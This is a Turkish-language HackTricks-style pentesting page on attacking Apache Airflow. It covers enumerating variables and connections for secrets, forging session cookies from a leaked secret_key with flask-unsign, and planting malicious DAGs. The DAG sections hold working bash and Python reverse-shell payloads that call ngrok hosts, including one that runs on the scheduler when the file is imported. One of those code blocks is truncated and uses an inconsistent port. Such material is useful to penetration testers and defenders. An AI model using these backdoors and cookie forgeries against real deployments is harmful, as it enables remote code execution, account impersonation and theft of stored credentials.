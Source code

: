 # Apache Airflow Güvenliği

<details>

<summary><strong>AWS hacklemeyi sıfırdan kahraman seviyesine öğrenin</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Kırmızı Takım Uzmanı)</strong></a><strong>!</strong></summary>

HackTricks'ı desteklemenin diğer yolları:

* Şirketinizi HackTricks'te **reklamınızı görmek** veya **HackTricks'i PDF olarak indirmek** için [**ABONELİK PLANLARI**](https://github.com/sponsors/carlospolop)'na göz atın!
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
* [**The PEASS Ailesi'ni**](https://opensea.io/collection/the-peass-family) keşfedin, özel [**NFT'lerimiz**](https://opensea.io/collection/the-peass-family) koleksiyonumuz
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) **katılın** veya **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)'ı **takip edin**.
* **Hacking hilelerinizi** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna **PR göndererek** paylaşın.

</details>

## Temel Bilgiler

[**Apache Airflow**](https://airflow.apache.org), **veri boru hatlarını veya iş akışlarını düzenlemek ve zamanlamak** için bir platform olarak hizmet verir. Veri boru hatları bağlamında "orkestrasyon" terimi, çeşitli kaynaklardan gelen karmaşık veri iş akışlarının düzenlenmesi, koordinasyonu ve yönetimi sürecini ifade eder. Bu orkestrasyon edilen veri boru hatlarının temel amacı, işlenmiş ve tüketilebilir veri kümelerini sunmaktır. Bu veri kümeleri, iş zekası araçları, veri bilimi ve makine öğrenme modelleri de dahil olmak üzere birçok uygulama tarafından yaygın olarak kullanılmaktadır ve büyük veri uygulamalarının işleyişine temel oluşturur.

Temel olarak, Apache Airflow, bir şey olduğunda (olay, cron) kodun yürütülmesini **zamanlamak için size izin verecektir**.

## Yerel Laboratuvar

### Docker-Compose

Tam bir Apache Airflow docker ortamını başlatmak için **https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml** adresindeki **docker-compose yapılandırma dosyasını** kullanabilirsiniz. (MacOS'ta iseniz, docker VM'ye en az 6GB RAM verdiğinizden emin olun).

### Minikube

Apache Airflow'ı çalıştırmanın kolay bir yolu, **minikube ile** çalıştırmaktır:
```bash
helm repo add airflow-stable https://airflow-helm.github.io/charts
helm repo update
helm install airflow-release airflow-stable/airflow
# Some information about how to aceess the web console will appear after this command

# Use this command to delete it
helm delete airflow-release
```
## Airflow Yapılandırması

Airflow, yapılandırmasında **hassas bilgileri** saklayabilir veya zayıf yapılandırmalar bulunabilir:

{% content-ref url="airflow-configuration.md" %}
[airflow-configuration.md](airflow-configuration.md)
{% endcontent-ref %}

## Airflow RBAC

Airflow'u saldırmadan önce **izinlerin nasıl çalıştığını** anlamanız gerekmektedir:

{% content-ref url="airflow-rbac.md" %}
[airflow-rbac.md](airflow-rbac.md)
{% endcontent-ref %}

## Saldırılar

### Web Konsolu Sorgulaması

Eğer **web konsoluna erişiminiz varsa**, aşağıdaki bilgilere bazı veya tümüne erişebilirsiniz:

* **Değişkenler** (Özel hassas bilgiler burada saklanabilir)
* **Bağlantılar** (Özel hassas bilgiler burada saklanabilir)
* `http://<airflow>/connection/list/` adresinden erişebilirsiniz
* [**Yapılandırma**](./#airflow-configuration) (Gizli anahtar (**`secret_key`**) ve şifreler gibi hassas bilgiler burada saklanabilir)
* Kullanıcılar ve rollerin listesi
* Her bir DAG'ın **kodu** (ilginç bilgiler içerebilir)

### Değişken Değerlerini Almak

Değişkenler, Airflow'da saklanabilir, böylece **DAG'lar** değerlerine **erişebilir**. Diğer platformların sırlarına benzer. Yeterli izinlere sahipseniz, bunlara GUI'de `http://<airflow>/variable/list/` adresinden erişebilirsiniz.\
Airflow, varsayılan olarak değişkenin değerini GUI'de gösterecektir, ancak [**bu**](https://marclamberti.com/blog/variables-with-apache-airflow/) kaynağa göre, GUI'de **yıldızlar** olarak görünecek **değerin** **listesini** ayarlamak mümkündür.

![](<../../.gitbook/assets/image (79).png>)

Ancak, bu **değerler** hala **CLI** (DB erişimi gerektirir), **rastgele DAG** yürütme, **API** ile değişkenler uç noktasına erişme (API'nin etkinleştirilmesi gerekmektedir) ve **GUI** kendisi aracılığıyla **alınabilir**.\
GUI'den bu değerlere erişmek için sadece erişmek istediğiniz değişkenleri **seçin** ve **Eylemler -> Dışa Aktar** üzerine tıklayın.\
Başka bir yol, **gizli değeri** elde etmek için **arama filtrelemesi** kullanarak **brute force** yapmaktır:

![](<../../.gitbook/assets/image (30).png>)

### Yetki Yükseltme

Eğer **`expose_config`** yapılandırması **True** olarak ayarlanmışsa, **Kullanıcı** rolünden ve **yukarısından** olan herkes **web üzerinden yapılandırmayı okuyabilir**. Bu yapılandırmada **`secret_key`** görünür, bu da bu geçerli anahtara sahip herhangi bir kullanıcının **kendi imzalı çerezini oluşturarak başka bir kullanıcı hesabını taklit edebileceği** anlamına gelir.
```bash
flask-unsign --sign --secret '<secret_key>' --cookie "{'_fresh': True, '_id': '12345581593cf26619776d0a1e430c412171f4d12a58d30bef3b2dd379fc8b3715f2bd526eb00497fcad5e270370d269289b65720f5b30a39e5598dad6412345', '_permanent': True, 'csrf_token': '09dd9e7212e6874b104aad957bbf8072616b8fbc', 'dag_status_filter': 'all', 'locale': 'en', 'user_id': '1'}"
```
### DAG Arka Kapısı (Airflow worker'da RCE)

Eğer **DAG'ların kaydedildiği yere yazma erişiminiz varsa**, sadece bir tane **oluşturabilirsiniz** ve size bir **ters kabuk** gönderecektir.\
Bu ters kabuk, bir **airflow worker konteyneri** içinde çalıştırılacaktır:
```python
import pendulum
from airflow import DAG
from airflow.operators.bash import BashOperator

with DAG(
dag_id='rev_shell_bash',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = BashOperator(
task_id='run',
bash_command='bash -i >& /dev/tcp/8.tcp.ngrok.io/11433  0>&1',
)
```

```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

with DAG(
dag_id='rev_shell_python',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python',
python_callable=rs,
op_kwargs={"rhost":"8.tcp.ngrok.io", "port": 11433}
)
```
### DAG Arka Kapısı (Airflow zamanlayıcısında RCE)

Eğer bir şeyi **kodun kökünde çalışacak şekilde ayarlarsanız**, bu yazı yazıldığı sırada, bunun DAG klasörüne yerleştirildikten birkaç saniye sonra **zamanlayıcı tarafından çalıştırılacaktır**.
```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

rs("2.tcp.ngrok.io", 14403)

with DAG(
dag_id='rev_shell_python2',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python2',
python_callable=rs,
op_kwargs={"rhost":"2.tcp.ngrok.io", "port": 144}
```
### DAG Oluşturma

Eğer DAG kümesi içindeki bir makineyi **ele geçirebilirseniz**, `dags/` klasöründe yeni **DAG betikleri** oluşturabilir ve bu betikler DAG kümesindeki diğer makinelerde de **replike edilecektir**.

### DAG Kod Enjeksiyonu

GUI üzerinden bir DAG çalıştırdığınızda, ona **argümanlar geçirebilirsiniz**.\
Bu nedenle, DAG düzgün bir şekilde kodlanmamışsa **Komut Enjeksiyonuna** açık olabilir.\
Bu CVE'de olduğu gibi: [https://www.exploit-db.com/exploits/49927](https://www.exploit-db.com/exploits/49927)

DAG'larda **komut enjeksiyonlarını aramaya başlamak için bilmeniz gereken tek şey**, **parametrelerin** **kodla erişildiği** kodun **`dag_run.conf.get("param_name")`** olduğudur.

Ayrıca, aynı zafiyet **değişkenlerle** de oluşabilir (not edin ki yeterli yetkilere sahipseniz GUI üzerindeki değişkenlerin **değerini kontrol edebilirsiniz**). Değişkenlere **şu şekilde erişilir**:
```python
from airflow.models import Variable
[...]
foo = Variable.get("foo")
```
Eğer örneğin bir bash komutu içinde kullanılıyorlarsa, komut enjeksiyonu gerçekleştirebilirsiniz.

<details>

<summary><strong>AWS hacklemeyi sıfırdan kahraman olmak için</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Kırmızı Takım Uzmanı)</strong></a><strong> öğrenin!</strong></summary>

HackTricks'i desteklemenin diğer yolları:

* **Şirketinizi HackTricks'te reklamını görmek isterseniz** veya **HackTricks'i PDF olarak indirmek isterseniz** [**ABONELİK PLANLARINA**](https://github.com/sponsors/carlospolop) göz atın!
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
* [**The PEASS Ailesi'ni**](https://opensea.io/collection/the-peass-family) keşfedin, özel [**NFT'lerimiz**](https://opensea.io/collection/the-peass-family) koleksiyonumuz
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) **katılın** veya **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**'ı takip edin**.
* **Hacking hilelerinizi** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına **PR göndererek paylaşın**.

</details>
